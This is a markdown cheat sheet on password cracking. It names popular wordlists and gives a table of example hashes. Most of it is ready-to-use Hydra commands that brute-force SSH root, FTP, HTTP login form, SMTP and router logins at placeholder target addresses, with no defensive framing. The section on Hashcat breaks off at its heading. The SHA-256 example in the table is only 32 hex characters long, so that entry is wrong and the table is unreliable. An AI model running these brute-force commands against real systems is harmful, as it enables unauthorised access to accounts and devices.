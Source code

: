 ## Password Cracking Basics

### Wordlists
- **Common Wordlists**:
  - `rockyou.txt`: Most popular wordlist for password cracking.
  - `SecLists`: Extensive wordlists for various scenarios. [SecLists GitHub](https://github.com/danielmiessler/SecLists)

### Common Hash Types
| Hash Type    | Example                              |
| ------------ | ------------------------------------ |
| MD5          | `5d41402abc4b2a76b9719d911017c592` |
| SHA-1        | `2aae6c35c94fcfb415dbe95f408b9ce91ee846ed` |
| SHA-256      | `9b74c9897bac770ffc029102a200c5de` |
| NTLM         | `8846f7eaee8fb117ad06bdd830b7586c` |
| WPA2 (PMKID) | `01a63e2fd3b4f5d4e3df0c4e6f22f8e3` |

## Brute Forcing with Hydra

### SSH
```bash
hydra -l root -P /path/to/wordlist.txt ssh://<target_ip>
```

### FTP
```bash
hydra -l anonymous -P /path/to/wordlist.txt ftp://<target_ip>
```

### HTTP Forms
```bash
hydra -l admin -P /path/to/wordlist.txt <target_ip> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```

### SMTP
```bash
hydra -l admin -P /path/to/wordlist.txt smtp://<target_ip>
```

### Router Login
```bash
hydra -l admin -P /path/to/wordlist.txt http-get://<router_ip>
```

## Cracking Hashes with Hashcat
